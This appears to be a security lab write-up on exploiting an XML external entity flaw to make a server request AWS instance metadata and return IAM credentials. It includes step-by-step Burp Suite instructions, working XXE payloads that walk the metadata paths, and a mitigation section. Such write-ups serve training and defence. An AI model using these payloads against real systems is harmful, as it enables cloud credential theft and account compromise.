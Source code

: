 # 1. Exploiting XXE to Perform SSRF Attacks

## 2. CVSS Score

**CVSS v3.1 Base Score: 8.6 (High)**
**CWE-611: Improper Restriction of XML External Entity Reference (‘XXE’)**

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A10:2021 – Server-Side Request Forgery (SSRF)**

## 4. Description of Vulnerability

This lab demonstrates a case where an **XML External Entity (XXE)** vulnerability is exploited to perform a **Server-Side Request Forgery (SSRF)** attack. By injecting a malicious `DOCTYPE` declaration into an XML request, the attacker forces the server to make internal HTTP requests to otherwise inaccessible endpoints.

The target in this lab is a **cloud instance metadata service** at `http://169.254.169.254/`, a common local endpoint used in cloud environments (e.g., AWS EC2) to provide instance configuration and credentials.

---

## 5. Detailed Explanation of What We Performed

We leveraged the XML parser’s ability to resolve external entities to force the backend server to send HTTP requests to its own internal network interface (`169.254.169.254`). By navigating through the metadata service’s path (`/latest/meta-data/...`), we eventually retrieved IAM role credentials, including a **SecretAccessKey**.

This is a realistic and high-severity SSRF attack that could lead to full compromise of cloud infrastructure.

---

## 6. Step-by-Step Procedure

🔹 **Step 1: Visit the Target and Intercept the Request**

1. Navigate to any product page on the lab website.
2. Click the **"Check stock"** button.
3. Intercept the resulting **POST** request using **Burp Suite Proxy**.

🔹 **Step 2: Inject Initial External Entity Targeting Metadata Endpoint Root**

4. Modify the request payload to inject a `DOCTYPE` that defines the `xxe` entity targeting the root of the metadata service:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

5. Forward the request and note the directory-style output in the response like:

   ```
   Invalid product ID: latest
   ```

🔹 **Step 3: Explore the API by Updating the External Entity Path**

6. Update the entity URL to `http://169.254.169.254/latest/` and repeat the request.

7. Keep navigating deeper step-by-step:

   * `http://169.254.169.254/latest/meta-data/`
   * `http://169.254.169.254/latest/meta-data/iam/`
   * `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
   * `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`

8. At the final URL, the response will contain JSON output similar to:

   ```json
   {
     "Code" : "Success",
     "LastUpdated" : "...",
     "Type" : "AWS-HMAC",
     "AccessKeyId" : "...",
     "SecretAccessKey" : "...",
     "Token" : "...",
     ...
   }
   ```

---

## 7. Impact of the Vulnerability

* **Cloud Credential Theft**: IAM credentials like `SecretAccessKey` can be used to access cloud APIs with high privileges.
* **Full Cloud Account Compromise**: If the exposed IAM role has administrative access, attackers could launch VMs, exfiltrate data, or destroy infrastructure.
* **Sensitive Internal Network Exposure**: The vulnerable application may be used as a proxy to scan internal services or exploit other systems.

---

## 8. Recommendations and Mitigations

* **Disable External Entity Resolution** in all XML parsers.
* **Use Whitelisted Network Requests Only**: Limit server access to internal resources via allowlists.
* **Implement SSRF Protections**: Use metadata service version 2 (IMDSv2) in cloud environments, which requires a session token to access.
* **Monitor and Log Internal HTTP Requests** for unusual behavior and use proper alerts for metadata access.

---

## 9. References

* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [AWS Metadata Service Documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
* [PortSwigger XXE Guide](https://portswigger.net/web-security/xxe/ssrf)

---

## 10. Proof of Concept

Final payload example targeting credential endpoint:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

**Expected Response Snippet:**

```
Invalid product ID: {
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  ...
}
